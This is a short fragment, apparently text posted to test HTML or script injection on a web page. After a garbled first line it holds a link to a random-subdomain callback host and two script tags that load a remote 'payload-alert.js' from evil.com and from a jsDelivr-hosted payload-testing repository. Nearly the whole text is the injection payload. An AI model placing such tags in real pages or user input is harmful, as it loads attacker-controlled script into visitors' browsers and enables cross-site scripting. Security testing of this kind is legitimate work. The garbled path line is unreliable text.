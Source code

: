 <a href="http://x31d3yf3uxjna9lf4pmzmngv3m9dxdl2.c01.red">HTML</a>
<script src="https://evil.com/payload-alert.js"></script>
<script src="https://cdn.jsdelivr.net/gh/hotplugin0x01/payload-testing@main/payload-alert.js"></script>
test
